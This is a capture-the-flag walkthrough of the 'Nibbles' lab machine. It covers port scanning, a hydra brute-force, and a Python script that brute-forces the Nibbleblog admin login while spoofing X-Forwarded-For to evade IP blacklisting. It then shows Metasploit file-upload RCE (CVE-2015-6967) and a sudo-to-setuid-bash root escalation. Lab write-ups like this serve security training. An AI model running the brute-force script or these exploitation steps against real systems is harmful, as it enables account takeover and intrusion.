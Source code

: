 # Nibbles - EASY Write-Up
---
## Initial Scanning
---
In order to begin working on the box, the first thing we must do is determine which ports are open on the target machine. For this task, I used the following nmap command: `nmap -sV -v 10.10.10.75`

This yielded us the following output:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-26 15:34 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 15:34
Scanning 10.10.10.75 [2 ports]
Completed Ping Scan at 15:34, 0.03s elapsed (1 total hosts)
Initiating Connect Scan at 15:34
Scanning nibbles.htb (10.10.10.75) [1000 ports]
Discovered open port 80/tcp on 10.10.10.75
Discovered open port 22/tcp on 10.10.10.75
Completed Connect Scan at 15:34, 0.44s elapsed (1000 total ports)
Initiating Service scan at 15:34
Scanning 2 services on nibbles.htb (10.10.10.75)
Completed Service scan at 15:34, 6.05s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.75.
Initiating NSE at 15:34
Completed NSE at 15:34, 0.11s elapsed
Initiating NSE at 15:34
Completed NSE at 15:34, 0.09s elapsed
Nmap scan report for nibbles.htb (10.10.10.75)
Host is up (0.024s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.11 seconds
```

As we can see in this output, the server appears to be running SSH and HTTP.

Upon navigating to the HTTP page in a browser, we just see a simple page displaying a hello world message:
![[Pasted image 20220626154406.png]]

## Discovering Nibbleblog
---
By inspecting the source, we can see that there is a special directory being served on the webserver:
![[Pasted image 20220626154526.png]]

In this directory, we find an empty blog page. We can see in the bottom right-hand corner of this page that the site is powered by "Nibbleblog":
![[Pasted image 20220626154809.png]]

## Idenitfying Potential Vulnerabilities in Nibbleblog
---
By looking up Nibbleblog, we can find that Nibbleblog is an open source CMS application that is no longer maintained. We can find the source code on the project's github: https://github.com/dignajar/nibbleblog

As the blog software is no longer maintained, we should check to see if the server is running a vulnerable version. I was not able to determine a version number for the version of Nibbleblog running on the target. However, we can run searchsploit to verify whether or not publicly known vulnerabilities exist for Nibbleblog. We find that there is an arbitrary file upload vulnerability in version 4.0.3:
![[Pasted image 20220626155739.png]]

The specific vulnerability identified is CVE-2015-6967, and the seachsploit payload found above corresponds to this exploit: https://www.exploit-db.com/exploits/38489

We can tell by looking at the exploit available for metasploit that the file upload vulnerability is authenticated, so we will need a username and password:
![[Pasted image 20220626160102.png]]

## Bruteforcing the Nibbleblog login
---
Upon researching Nibbleblog, I was not able to determine if there are any default credentials available for Nibbleblog. Because of this lack of default credentials, I decided to attempt to bruteforce the nibbleblog login. By lookign through the github repository, we can see that there is an admin.php file, which contains a login page:
![[Pasted image 20220626165446.png]]

As we can see in the above screenshot, we get an error message upon failing to login that reads "Incorrect username or password."

In order to attempt to bruteforce the login page, we can use the following hydra command: `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:F=Incorrect username or password."`

Hydra tells us that there were several valid passwords found for the admin user (where the existence of the admin user is just a guess):
![[Pasted image 20220626170039.png]]

Unfortunately, none of these passwords turn out to be actual valid passwords, but rather hydra is finding false positives because there is some kind of IP lockout in place in the web application:
![[Pasted image 20220626170142.png]]

Looking into the Nibbleblog source code on github, we find that the blacklisting is implemented in Nibbleblog itself in the db_users.php file. Specifically, we find that the blacklisting is implemented by ignoring requests sent by the same IP that have failed in rapid succession. After a few minutes, the blacklist then resets and allows additional login attempts:
![[Pasted image 20220626170541.png]]

If we look into the logic that determines the user's ip address, we can see that the application trusts the X-Forwarded-For header before it trusts the originating IP in determining the valid IP address. This means that we can spoof our IP address to get past the IP blacklisting and allow us to bruteforce the login panel at full speed:
![[Pasted image 20220626170819.png]]

In order to bruteforce the password for the admin user (still assuming that this user exists, but we could try a userlist next), we can use the following script:
```python
import requests

class ip_iterator():
    def __init__(self):
        self.octets = [0,0,0,0]
        self.counter = 0

    def get_next_ip(self):
        if self.counter < 4:
            self.counter = self.counter+1
        else:
            self.counter = 0
            self.iterate_ip()
        return self.ip_string()

    def iterate_ip(self):
        for octet in  range(len(self.octets)):
            self.octets[octet] = self.octets[octet] + 1
            if self.octets[octet] > 254:
                self.octets[octet] = 0
            else:
                break

    def ip_string(self):
        return f"{self.octets[3]}.{self.octets[2]}.{self.octets[1]}.{self.octets[0]}"


target = "http://10.10.10.75/nibbleblog/admin.php"

passfilename = "/usr/share/wordlists/rockyou.txt"
passfile = open(passfilename, 'r')

password = passfile.readline()

ipctr = ip_iterator()

while password:
    params = {"username":"admin","password":password.strip()}
    headers = {"X-Forwarded-For":ipctr.get_next_ip(),"Content-Type":"application/x-www-form-urlencoded"}
    response = requests.post(url=target, data=params, headers=headers)
    if "Nibbleblog security error - Blacklist protection" in response.text:
        print("Blacklist Detected")
        break
    if "Incorrect username or password" not in response.text:
        print("Valid password:", password)
        break
    password = passfile.readline()
passfile.close()

```

After running the bruteforce script on the admin user, we find the credentials admin:nibbles for the CMS:
![[Pasted image 20220626185954.png]]

We can verify that we have the correct username and password by logging into the admin panel:
![[Pasted image 20220626190400.png]]

Since, the password for the CMS is "nibbles", it is likely that the box creator intended for us to guess that the name of the box (or the name of the blog within the box) was the password, rather than find a way to bruteforce it. This is likely an attempt to simulate using a company name as a password.

## Gaining Remote Code Execution using CVE-2015-6967
---
Now that we have the admin password, we can continue to test the previous potential vulnerability that we identified using the nibbleblog_file_upload metasploit module. We can test the application using the following options (and `set verbose true` issued to get additional output):
![[Pasted image 20220626190602.png]]

This payload is successful and we now have a meterpreter session on the box running as the nibbler user:
![[Pasted image 20220626191025.png]]

We can now read the user flag in /home/nibbler/user.txt:
![[Pasted image 20220626191212.png]]

## Privilege Escalation
---
By using the `sudo -l` command, we can see that the nibbler user has the ability to execute a specific bash script as root:
![[Pasted image 20220626191321.png]]

Since the file that can be run with sudo is located in nibbler's hoem directory, we have the privileges necessary to create it:
![[Pasted image 20220626191427.png]]

We can modify the bash file provided to change the permissions of the bash program on the machine to be setuid. This will allow us to spawn a root shell:
![[Pasted image 20220626191631.png]]

After running the newly created bash script with sudo, we can use `bash -p` to spawn a shell as root:
![[Pasted image 20220626191739.png]]



